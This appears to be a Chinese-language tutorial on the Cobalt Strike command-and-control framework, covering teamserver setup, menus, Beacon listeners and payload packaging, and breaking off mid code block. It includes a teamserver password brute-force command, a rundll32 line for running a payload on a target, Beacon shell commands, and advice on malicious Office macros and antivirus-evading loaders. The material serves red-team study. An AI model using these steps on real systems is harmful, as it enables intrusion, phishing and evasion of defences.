# CobaltStrike

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

Cobalt Strike 是一款常用于后渗透的神器，这个工具以团队作为主体，共享信息，拥有多种协议上线方式，集成了端口转发，端口扫描，socket 代理，提权，钓鱼等。除去自身功能外，Cobalt Strike 还利用了 Metasploit 和 Mimikatz 等其他知名工具的功能。

**官网**
- https://www.cobaltstrike.com/

**教程**
- [aleenzz/Cobalt_Strike_wiki](https://github.com/aleenzz/Cobalt_Strike_wiki)
- [Cobalt Strike 4.0 手册翻译](https://blog.ateam.qianxin.com/post/cobalt-strike-40-shou-ce-fan-yi-2019-nian-12-yue-2-ri-geng-xin-ban-ben/)

**文章 & Reference**
- [cobalt strike 快速上手 [ 一 ] - FreeBuf专栏·攻防之路](https://www.freebuf.com/column/149236.html)
- [教你修改cobalt strike的50050端口 - 3HACK](https://www.3hack.com/note/96.html)
- [ryanohoro/csbruter: Cobalt Strike team server password brute force tool](https://github.com/ryanohoro/csbruter)
- [踩坑记录-DNS Beacon](https://xz.aliyun.com/t/7938)

**工具/插件**

Cobalt Strike 可以使用 AggressorScripts 脚本来加强自身，能够扩展菜单栏，Beacon 命令行，提权脚本等

- [rmikehodges/cs-ssl-gen](https://github.com/rmikehodges/cs-ssl-gen) sslgen 将安装一个 letsencrypt 证书并从中创建一个 Cobalt Strike 密钥库.
- [uknowsec/SharpToolsAggressor](https://github.com/uknowsec/SharpToolsAggressor) - 内网渗透中常用的 c# 程序整合成 cs 脚本, 直接内存加载.
- [DeEpinGh0st/Erebus](https://github.com/DeEpinGh0st/Erebus) CobaltStrike 后渗透测试插件
- [QAX-A-Team/EventLogMaster](https://github.com/QAX-A-Team/EventLogMaster) - RDP 日志取证 & 清除插件
- [outflanknl/Spray-AD](https://github.com/outflanknl/Spray-AD) - Cobalt Strike工具，用于审核 AD 用户帐户中的弱密码

**爆破 cobaltstrike teamserver**
```bash
git clone https://github.com/ryanohoro/csbruter
cd csbruter
cat wordlist.txt | python3 csbruter.py xxx.xxx.xxx.xxx
```

---

# 使用及维护

**目录结构**
```bash
agscript            # 拓展应用的脚本
c2lint              # 检查profile的错误异常
cobaltstrike
cobaltstrike.jar    # 客户端程序
icon.jpg
license.pdf
readme.txt
releasenotes.txt
teamserver          # 服务端程序
update
update.jar
third-party         # 第三方工具
    - README.vncdll.txt
    - vncdll.x64.dll
    - vncdll.x86.dll
```

**使用**

Cobalt Strike 需要团队服务器才能使用，也就是 teamserver。 需要文件 teamserver 与 cobaltstrike.jar 可以选择把他放在公网上面

- 服务端 teamserver
    ```bash
    ./teamserver <host> <password> [/path/to/c2.profile] [YYYY-MM-DD]
    # 默认只填 host 与 password 即可

	# <host> 是这个 Cobalt Strike 团队服务器的（默认）IP 地址。
	# <password> 是连接到该服务器的共享密码。
	# [/path/to/c2.profile] 这个参数指定一个「C2 拓展文件」
	# [YYYY-MM-DD] 是该服务器运行的 Beaco npayloads 的删除日期。
    ```

- 客户端 cobaltstrike

    运行 `start.bat/sh`

    或

    `java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Xms512M -Xmx1024M -jar cobaltstrike.jar`

    

    输入服务端IP、账号、密码,访问服务端

    团队服务器的默认端口为 50050,User 字段填写你的昵称，当你进入团队服务器之后会显示此昵称。Password 字段填写团队服务器的共享密码。

    

**连接到多个团队服务器**

Cobalt Strike 客户端可能会连接到多个团队服务器。通过 Cobalt Strike → New Connection （新建连接）来初始化一个新的连接。当连接到多个团队服务器，一个切换条会出现在你 Cobalt Strike 窗口的底部。



这个切换条允许你在活跃的 Cobalt Strike 团队服务器实例之间切换。每一个团队服务器有它自己的按钮。在一个按钮上点击右键、选择重命名来使这个按钮的名称能够反映这台团队服务器在你行动中的作用。这个按钮名称也用于在 Cobalt Strike 活动报告中标识团队服务器。

Cobalt Strike 会跟踪你连接到的团队服务器并记住你的信息。从连接对话框左手边选择一个团队服务器的 profile（连接信息），使用它的信息填充此连接对话框的字段。你也可以通过 CobaltStrike → Preferences → Team Servers 来管理此列表。



**导出数据**

如果你想导出 Cobalt Strike 的数据，通过 Reporting → Export Data 。Cobalt Strike 提供两种选项：把数据导出为 TSV 或 XML 文件。Cobalt Strike 客户端的导出数据功能会融合来自你当前连接的所有团队服务器的数据

**清除数据**

Cobalt Strike 的数据模型将其所有的状态和状态元数据存储在 data/ 文件夹。 data/ 文件夹存在在你运行 Cobalt Strike 团队服务器的那个文件夹里。

要清除 Cobalt Strike 的数据模型：停止团队服务器，删除 data/ 文件夹及其内容。当你下次启动团队服务器的时候，Cobalt Strike 会重建 data/ 文件夹。

如果你想要存档数据模型，请停止团队服务器，然后使用你喜欢的程序来将 data/ 文件夹及其文件存储在其他位置。要还原数据模型，请停止团队服务器，然后将旧内容还原到 data/ 文件夹。

通过 Reporting → Reset Data 可以在不重启团队服务器的情况下重置 Cobalt Strike 的数据模型。

---

# 用户界面

## 菜单栏功能

**Cobalt Strike**



```bash
New Connection  # 新连接
Preferences     # 偏好设置,窗口颜色,端口设置，GUI 格式，team server SSL 等
Visualization   # 窗口视图模式
VPN interfaces  # VPN 接入
Listeners       # 监听器
Sript Manager   # 脚本管理
Close           # 退出
```

**View**



```bash
Applications    # 用于显示 System Profiler 获取的目标浏览器，操作系统，flash 版本
Credentials     # 显示所有已经获取的用户主机 hash
Downloads       # 显示下载的文件
Event log       # 事件日志 记录团队 目标上线等记录
Keystrokes      # 目标键盘记录
Proxy Pivots    # 代理信息
Screenshots     # 屏幕截图
Script Console  # 加载自定义脚本
Targets         # 显示所有主机
Web log         # web 服务日志
```

**Attacks**



```bash
Packages
    HTML Application        # 生成 hta 文件
    MS Office Macro         # 宏 office 文件
    Payload Generator       # 生成各种语言版本的 payload
    # USB/CD AutoPlay       利用自动播放运行的被控端文件(cs4.0 中已移除)
    # Windows Dropper       捆绑器可将任意正常的文件(cs4.0 中已移除)
    Windows Executable      # 生成可执行文件 (一般使用这个)
    Windows Executable (S)  # 把包含 payload,Stageless 生成可执行文件(包含多数功能)

Web Drive-by
    Manage                  # 开启的所有 web 服务
    Clone Site              # 克隆网站
    Host File               # 提供 Web 以供下载某文件
    Scripted Web Delivery   # 为 payload 提供 web 服务以便于下载和执行
    Signed Applet Attack    # 启动一个 Web 服务以提供自签名 Java Applet 的运行环境
    Smart Applet Attack     # 自动检测 Java 版本并利用已知的 exploits 绕过 security
    System Profiler         # 获取系统，Flash，浏览器版本等

Spear Phish     # 鱼叉式网络钓鱼
```

**Reporting**


```bash
Activity report             # 活动报告
Hosts report                # 主机报告
Indicators of Compromise    # 威胁报告
Sessions report             # 会话报告
Social engineering report   # 社会工程学报告
```

**右键目标菜单**



```bash
Interact        # 打开beacon
Access
	dump hashes     # 获取 hash
	Elevate         # 提权
	Golden Ticket   # 生成黄金票据注入当前会话
	MAke token      # 凭证转换
    One-liner       # 使用 PowerShell 单行程序来派生会话
	Run Mimikatz    # 运行 Mimikatz
	Spawn As        # 用其他用户生成 Cobalt Strike 侦听器
Explore
	Browser Pivot   # 劫持目标浏览器进程
	Desktop(VNC)    # 桌面交互
	File Browser    # 文件浏览器
	Net View        # 命令Net View
	Port scan       # 端口扫描
	Process list    # 进程列表
	Screenshot      # 截图
Pivoting
	SOCKS Server    # 代理服务
	Listener..      # 反向端口转发
	Deploy VPN      # 部署VPN
Spawn           # 新的通讯模式并生成会话
Session         # 会话管理，删除，心跳时间，退出，备注
    Note...         # 设置注释
    Color           # 设置会话颜色
    Remove          # 删除会话
    Sleep           # 会话休眠
    Exit            # 退出会话
```

---

## 工具条功能


从左到右依次是
```
连接到另一个团队服务器
从当前团队服务器断开连接
新建和编辑 CS 的监听器
切换 [服务器节点图] 的可视化形式
切换 [会话列表] 的可视化形式
切换[目标列表的可视化形式]
查看凭证
查看下载的文件
查看键盘记录
查看屏幕截图
生成一个 windows 的二进制或 DLL 文件(stageless)
设定 java 签名的 Applet 攻击
生成一个 office 宏文件
建立一个 web delivery 脚本攻击(stageless)
在 cs 的 web 上托管文件
管理 cs 的 web 文件
```

---

## 可视化管理

Cobalt Strike 有多种可视化展示，这些不同的设计是为了帮助你的行动中的不同部分。

你可以通过工具条或 Cobalt Strike → Visualization （可视化）菜单在不同的可视化形式之间切换。



Session Table 和 Target Table 都没什么好说的,介绍一下 Pivot Graph

### Pivot Graph



每一个 Beacon 会话都有一个对应的图标。和会话表中一样，每个主机的图标标识了它的操作系统。如果图标是红色的、并且带有闪电，那么表示此 Beacon 运行在管理员权限的进程中。一个褪色的图标说明此 Beacon 会话被要求离开并且它接受了此命令。

防火墙图标代表你 Beacon payload 的流量出口点。绿色虚线表示使用了 HTTP 或 HTTPS 连接出网。黄色虚线表示使用 DNS 协议出网。

从一个 Beacon 会话连接到另一个 Beacon 会话的箭头表示两个 Beacon 之间存在连接。在这种对等通信模式中，Cobalt Strike 的 Beacon 使用 Windows 命名管道和 TCP sockets 来控制其他的Beacon。

橙黄色的箭头代表命名管道通道。SSH 会话也使用一个橙黄色的箭头。一个淡绿的箭头代表一个 TCP socket 通道。一个红色的（命名管道）或紫色的（TCP）箭头表示一个 Beacon 连接断掉了。

---

# Listeners & payload

你需要为 Cobalt Strike 的 Beacon payload 配置监听器。Beacon 是 Cobalt Strike的 payload，用于建模高级攻击者。使用 Beacon 来通过 HTTP，HTTPS 或 DNS 出口网络。你也可以通过控制经由命名管道和 TCP sockets 的对等（peer-to-peer）Beacon 从而限制出口网络，只允许部分主机直接回连。

一个监听器既是一个 payload 的配置信息，同时又是 Cobalt Strike 起一个服务器来接收来自这个 payload 的连接的指示。一个监听器由用户定义的名称、payload 类型和几个特定于 payload 的选项组成。

**上线一个目标**

首先配置一个监听器



生成 payload 选择 Packages>Windows Executable



在目标机器上执行 dll
```bash
rundll32.exe artifact.dll Start
```

目标上线



右键目标,打开 interact 来使用 Beacon，用它来执行各种命令



如果想对目标进行命令管理 需要在前面加上 shell
```bash
shell whoami
```



Cobalt Strike 中它的心跳默认是 60s 这会让我们执行的命令响应很慢,可以设置 sleep 值,加快其响应速度
```bash
sleep 1
```

## 监听器管理

Cobalt Strike → Listeners 。这会打开一个标签页，列举出所有你的配置的 payload 和监听器。



在 Cobalt Strike4.1 中有如下几种 Listeners(监听器)



- beacon 系列为 Cobalt Strike 自身，包括 dns,http,https,smb,tcp 五种方式的监听器
- foreign 系列为外部监听器 通常与 MSF 或者 Armitage 联动。

---

## Beacon

Beacon 很灵活，支持异步通信模式和交互式通信模式。异步通信效率缓慢：Beacon 会回连团队服务器、下载其任务，然后休眠。交互式通信是实时发生的。

Beacon 的网络流量指标具有拓展性。可以使用 Cobalt Strike 的可拓展的 C2 语言来重新定义 Beacon的通信。这允许你掩盖 Beacon 行动，比如使其流量看起来像其他的恶意软件，又或者将其流量掺入作为合法流量。

**Spawn**

spawn 的功能就是可以派生出更多的 Beacon 让一个团队分布式渗透。通常我们在团队主服务器上给队友来派生 Beacon 这样只要主服务器权限不掉，还能继续操作。尽量派生出多个 Beacon，让我们的操作都在子 Beacon。

灵活的运用 Spawn 可以提高团队效率，权限维持，和 MSF、Armitage 互转会话。

---

### HTTP Beacon 和 HTTPS Beacon


---

### DNS Beacon

DNS Beacon 使用 DNS 请求来将 Beacon 返回给你。DNS 响应告诉 Beacon 休眠或是连接到团队服务器来下载任务。DNS 响应也告诉 Beacon 如何从你的团队服务器下载任务。DNS Beacon 在绕过防火墙权限维持上非常有效.



在 Cobalt Strike 4.0 及之后的版本中，DNS Beacon 是一个仅 DNS 的 payload。在这个 payload 中，没有 HTTP 通信模式。这是与之前的版本的产品不同的地方。

**数据通道**

DNS Beacon 可以通过 DNS TXT 记录、DNS AAAA 记录或 DNS A 记录下载任务。当其在目标上，此 payload 有在这些数据通道之间切换的灵活性。使用 Beacon 的模式命令来改变当前 Beacon 的数据通道。
```bash
mode dns        # DNS A 记录数据通道；
mode dns6       # DNS AAAA 记录数据通道；
mode dns-txt    # DNS TXT 记录数据通道。DNS TXT 记录是默认的数据通道。
```

**监听器设置**

创建一个 DNS Beacon 监听器，选择 Beacon DNS 作为 payload 类型。

点击 [+] 来添加一到多个与 beacon 通信的域名。你的 CS 团队服务器系统必须对你指定的域名具有权威性。创建一个 DNS A 记录然后指向你的 CS 团队服务器。使用 DNS NS 记录来将多个域名或子域名委派到你的 Cobalt Strike 团队服务器的 A 记录。

DNS HOST(Stager) 字段配置 DNS Beacon 的 TXT 记录 stager。这个 stager 仅被用在要求显式 stager 的 Cobalt Strike 功能中。你的 Cobalt Strike 团队服务器系统也必须对此域名具有权威性。

要测试你的 DNS 配置，打开一个终端并输入 nslookup jibberish.beacon domain （domain 自行替换为 stager 域名）。如果你得到了一个 0.0.0.0 的 A 记录回复——这说明你的 DNS 配置是对的。如果你没有得到回复，那说明你的 DNS 配置不对、DNS Beacon 不会与你通信。

确保你的 DNS 记录引用了你的网络接口的首选地址（primary address）。Cobalt Strike 的 DNS 服务器会一直从你的网络接口的首选地址发送响应。当 DNS 解析器从一台服务器请求信息，但是从另一台服务器接收回复时，DNS 解析器往往会丢弃回复。

如果你的团队服务器在内网中，请确保用你的公网 IP 地址作为 NS 记录，并将你的防火墙设置为转发 53 端口上的 UDP 流量到你的系统。Cobalt Strike 包含一个控制 Beacon 的 DNS 服务器。

当启动一个 DNS Beacon 的时候，就相当于 Cobalt Strike 把团队服务器作为了一个 DNS 的解析服务器。当受害主机进行 DNS 请求的时候，就需要给 53 端口发包。如果团队服务器在内网中，就需要把公网 IP 的 53 端口和内网 IP 做一个端口映射，相当于把外网的 53 端口映射到内网的团队服务器上去。

域名建立 A 记录和 NS 记录
- A 记录指向服务器 ip
- ns 记录都指向 A 记录域名

只要木马在目标主机执行成功，我们的 CobaltStrike 就能接收到反弹的 shell。但是默认情况下，主机信息是黑色的。

我们需要执行以下命令，让目标主机信息显示出来
```bash
checkin
mode dns-txt
```

---

### SMB Beacon

SMB Beacon 使用命名管道通过父级 Beacon 进行通讯，当两个 Beacons 链接后，子 Beacon 从父 Beacon 获取到任务并发送。因为链接的 Beacons 使用 Windows 命名管道进行通信，此流量封装在 SMB 协议中，所以 SMB Beacon 相对隐蔽。



存在以下2个条件
1. 具有 SMB Beacon 的主机必须接受端口 445 上的连接。
2. 只能链接由同一 Cobalt Strike 实例管理的 Beacon。

派生一个 SMB Beacon 在 Listeners 生成 SMB Beacon



右键目标主机 > spawn > 选中 Listeners >choose





运行成功后 external 可以看到 ∞∞ 这个字符 ，这就是派生的 SMB Beacon 当前是连接状态 你可以主 Beacon 上用 link host 链接它或者 unlink host 断开它 。



当用命令断开时 链接符号上面出现 disconnected



---

### TCP Beacon


---

## Attacks Payload

### Pachages

**HTML Application**

HTA 是 HTML Application 的缩写（HTML 应用程序），是软件开发的新概念，直接将 HTML 保存成 HTA 的格式，就是一个独立的应用软件



提供 3 种生成方式 exe,powershell,vba。

其中 VBA 方法需要目标系统上的 Microsoft Office，在系统支持的情况下一般选择 powershell，通常结合 host File(文件下载功能) 来实行钓鱼。

**MS Office Macro**

宏是微软公司为其 OFFICE 软件包设计的一个特殊功能，它利用简单的语法，把常用的动作写成宏。宏病毒传播极快，可以多平台交叉感染，在鱼叉邮件投递内嵌恶意宏的 Word 文档是 APT 活动中经常用到的手法。



复制生成的 payload

新建一个 word 文档, 编辑宏





另存为 `启用宏的 word` 文件

**Payload Generator**

用 Packages>Windows Executable 生成的服务很容易被 AV 干掉，所以我们一般生成 shellcode 然后自己写个加载器加载运行我们的 Payload



**Windows Executable（Windows 可执行文件）**

- dll
    ```bash
    rundll32.exe artifact.dll Start
